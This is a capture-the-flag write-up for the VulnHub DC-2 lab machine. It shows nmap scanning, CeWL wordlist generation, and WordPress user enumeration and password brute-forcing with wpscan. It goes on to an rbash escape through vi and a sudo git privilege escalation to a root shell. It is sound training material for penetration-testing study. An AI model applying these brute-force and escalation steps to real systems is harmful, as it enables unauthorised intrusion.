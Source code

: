 ```yaml
---
layout: default
title : muzec - DC-2 Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/119254510-a9931d00-bb84-11eb-84ab-b87d72fcaba8.png)

Yet again today we be working on another OSCP like box DC2 On vulnhub you can grab a copy here [Download DC2](https://www.vulnhub.com/entry/dc-2,311/) .

Note:- You need to add `172.16.139.179` dc-2 to `/etc/hosts` probably your IP we be different from mine.

We always start with an nmap scan.....

```Nmap -sC -p- -sV -oA nmap <Target-IP>```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/DC2]
└─$ cat nmap.nmap 
# Nmap 7.91 scan initiated Wed May 19 13:51:26 2021 as: nmap -p- -sC -sV -oA nmap 172.16.139.179
Nmap scan report for 172.16.139.179
Host is up (0.00020s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 19 13:51:38 2021 -- 1 IP address (1 host up) scanned in 11.88 seconds
```

Port 80 and 7744 going through the port 80 first found our first flag with some extra hint to generate a wordlists to brute force the wordpress admin login page .

![image](https://user-images.githubusercontent.com/69868171/119254755-325e8880-bb86-11eb-9c23-cf9e56dafaa5.png)

### Running CeWL To Generate A Wordlist .

`cewl -m 7 -w wordlist.txt -d 5 -v http://dc-2/`

In this command, -m 7 specifies that we want our gathered words to be no less than 7 characters in length. -w followed by a text file name provides a place for our wordlist to be captured. If this isn’t specified, CeWL will only display monitor output and no file will be created.

-d 5 (default is 2) explicitly specifies that we want CeWL to crawl 5 links deep, meaning we only want to gather words from 5 pages. The -v flag followed by the URL above tells CeWL that we want it to crawl the Wikipedia Game of Thrones page in order to gather words.

When the command is executed, we’ll see activity on the console. Simply wait until it’s done and a wordlist.txt file will be created.

![image](https://user-images.githubusercontent.com/69868171/119255254-c2053680-bb88-11eb-833e-8023c5e61656.png)

Now we have the wordlist for passwords now let try to enumerate the blog to find some usernames using `wpscan` .

`wpscan --url http://dc-2/ --enumerate u ` and we found 3 users .

![image](https://user-images.githubusercontent.com/69868171/119255346-5374a880-bb89-11eb-9dd7-0386063b0926.png)

1. admin
2. jerry
3. tom

Now let save in a wordlist name user.txt now let brute force it using `wpscan` .

`wpscan --url http://dc-2/ --usernames user.txt --passwords wordlist.txt` and we have the right credentials .

![image](https://user-images.githubusercontent.com/69868171/119255637-de09d780-bb8a-11eb-89d8-6661e8a60d16.png)

Got access to the admin panel but it just a simple author credentials both the tom and jerry account .

![image](https://user-images.githubusercontent.com/69868171/119255747-5a041f80-bb8b-11eb-9ded-e9aebbb134c3.png)

So let try using it on SSH and boom we got in with the tom credential .

![image](https://user-images.githubusercontent.com/69868171/119255863-ef071880-bb8b-11eb-92f7-9fa0c17d228d.png)

But it a resticted rbash shell now let try to escape it using `vi` .

![image](https://user-images.githubusercontent.com/69868171/119255960-51f8af80-bb8c-11eb-817a-8e601663d17c.png)

Press enter and type `:shell` .

![image](https://user-images.githubusercontent.com/69868171/119255992-76548c00-bb8c-11eb-9953-d79770471f8d.png)

And boom escape but seems we can't still using some commands probably the `/bin/sh` path is not set.

![image](https://user-images.githubusercontent.com/69868171/119256036-a69c2a80-bb8c-11eb-9a05-21e50545b7ad.png)

Now let export it `export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin` and we are good to go i guess lol .

![image](https://user-images.githubusercontent.com/69868171/119256206-90429e80-bb8d-11eb-9b5d-47b01068e708.png)

Now let try to change user `su jerry` with the password we found when brute forcing the wordpress login page.

![image](https://user-images.githubusercontent.com/69868171/119256298-08a95f80-bb8e-11eb-8c5e-a06137dd543c.png)

Boom we are in now let check `sudo -l` .

![image](https://user-images.githubusercontent.com/69868171/119256351-44442980-bb8e-11eb-9d5c-320c0b92e94b.png)

Cool we can run `/usr/bin/git` to get root now let hit `gtfobins` .

![image](https://user-images.githubusercontent.com/69868171/119256408-9f761c00-bb8e-11eb-8814-521b7852782f.png)

`sudo git -p help config` and let type `!/bin/sh` to get our root shell .

![image](https://user-images.githubusercontent.com/69868171/119256462-e06e3080-bb8e-11eb-8f0c-60b3859220dc.png)

And enter give us the root shell .

![image](https://user-images.githubusercontent.com/69868171/119256489-fbd93b80-bb8e-11eb-8f19-1a8317310e3f.png)

And we have the final flag also box rooted .

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

